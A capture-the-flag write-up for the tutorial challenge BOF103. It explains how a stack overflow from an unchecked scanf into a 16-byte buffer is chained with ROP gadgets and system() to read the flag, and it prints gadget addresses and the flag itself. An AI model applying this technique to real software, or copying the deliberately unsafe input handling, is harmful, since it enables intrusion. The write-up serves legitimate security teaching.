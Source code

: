# BOF103

## Description
```
ROP is an attack technique which makes BOF vulnerabilities so critical.

Find the binary running at: nc bof103.sstf.site 1337.

Download: BOF103.zip

This is a tutorial challenge.
If you are not sure how to solve this,
please refer to the tutorial guide(Eng | Kor).
```

## Solution
The binary has no stack canary and PIE.
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
We have stack BOF.
```c
	char name[16];
    // ...
	printf("Name > ");
	fflush(stdout);
	scanf("%s", name);
```
We also have `system@plt`. So, where to put command?
```c
	system("echo 'Welcome to BOF 103!'");
```
We have 8-bytes long global variable.
```c
unsigned long long key;
```
Also, we have a magic function gadget for it.
```c
void useme(unsigned long long a, unsigned long long b)
{
	key = a * b;
}
```
To do ROP, we need to find gadgets for settings parameters of `useme()` (e.g. `a` and `b`), which is `pop rdi; ret;` and `pop rsi; ret;` for each.
```sh
$ ROPgadget --binary bof103 --only "pop|ret" | grep "rdi\|rsi"
0x00000000004007b3 : pop rdi ; ret
0x00000000004007b1 : pop rsi ; pop r15 ; ret
0x0000000000400747 : pop rsi ; ret
```
The last step is only to calculate appropriate `a` and `b` which makes `key` as `cat<flag`.

## Flag
`SCTF{S0_w3_c4ll_it_ROP_cha1n}`